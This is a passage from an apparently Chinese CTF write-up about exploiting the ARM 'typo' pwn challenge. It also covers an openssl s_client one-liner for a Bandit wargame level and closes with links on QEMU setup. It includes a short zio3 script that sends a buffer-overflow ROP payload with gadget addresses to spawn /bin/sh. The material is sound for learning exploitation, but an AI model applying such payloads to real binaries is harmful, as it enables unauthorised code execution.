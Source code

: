 成功getshell，看来的确是IO的问题。另外前几天在打wargames的Bandit时有一关是用openssl的s_client连上目标服务器然后发送数据，我就想用一条命令解题，然后向通过管道输入给openssl，但是如果什么参数都不加就不会成功的发送数据，查看其帮助`openssl s_client -h`，发现有这个选项：

```bash
-ign_eof      - ignore input eof (default when -quiet)
```

如果加上`-ign_eof`或者`-quiet`参数，就可以忽略eof，然后就能成功的通过管道或者文件利用一条命令完成本题：

```bash
echo "BfMYroe26WYalil77FoDi9qh59eK5xNr" | openssl s_client -connect localhost:30001 -quiet 2>/dev/null
```

所以估计typo这题不成功的原因也是EOF

### 在Android上

在我的termux里无法成功安装pwntools，但是可以安装[zio3](https://github.com/alset0326/zio3)

```python
from zio3 import *

io = zio("./typo")
io.read_until("quit\n")
io.writeline("")
io.read_until("\n")
payload = 'a'*112 + l32(0x20904) + l32(0x6c384)*2 + l32(0x110b4)
io.writeline(payload)
io.interact()
```

不止为何，仍然无法成功，此脚本在树莓派上可以成功。所以在android上没有成功的原因不仅仅是EOF的问题，另外我知道android没有/bin/sh，我把参数往后调了5个字节，变成了sh即payload为：

```python
payload = 'a'*112 + l32(0x20904) + l32(0x6c389)*2 + l32(0x110b4)
```

仍然无法成功

### 总结

看起来的确在android上还是有很大的不一样的，而且自己对于控制IO还不是很懂，比如当漏洞程序执行execve("/bin/sh",0,0)，我们的确执行了程序的控制流，但是getshell实际上是启动一个子进程然后执行/bin/sh，但是父进程输入输出和子进程的输入输出都是在当前的tty，我们getshell之后，父进程是直接崩溃了么？这个过程具体是啥样的我还不是很清楚。

## 其他参考

typo的wp:

- [Pwn-10月15-简单了解异构pwn题](https://www.cnblogs.com/yof3ng/p/9824060.html)
- [jarvis oj typo](https://blog.csdn.net/weixin_41617275/article/details/89928378)


利用qemu的pwn环境搭建:

- [arm pwn 环境搭建](https://nocbtm.github.io/2020/01/21/arm-pwn%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/#qemu-%E7%AE%80%E4%BB%8B)
- [ARM栈溢出攻击实践：从虚拟环境搭建到ROP利用](https://www.freebuf.com/articles/terminal/107276.html)
- [arm32-pwn从环境搭建到实战](https://xz.aliyun.com/t/3744)
- [ARM PWN 环境搭建和测试](https://blog.csdn.net/u012655643/article/details/84584974)
- [如何 pwn 掉一个 arm 的binary](https://m4x.fun/post/how-2-pwn-an-arm-binary/)
- [arm pwn](http://myhackerworld.top/2018/09/27/arm-pwn/)
- [xman冬令营预选赛arm-pwn](https://carlstar.club/2019/02/11/arm-pwn/)


qemu相关:

- [QEMU搭建树莓派环境](https://www.freebuf.com/column/204231.html)
- [qemu-kvm](http://wiki.hacksmeta.com/virtualization/qemu-kvm.html)
- [Linux实战教学笔记53：开源虚拟化KVM（一）搭建部署与概述](https://www.cnblogs.com/chensiqiqi/p/9162989.html)

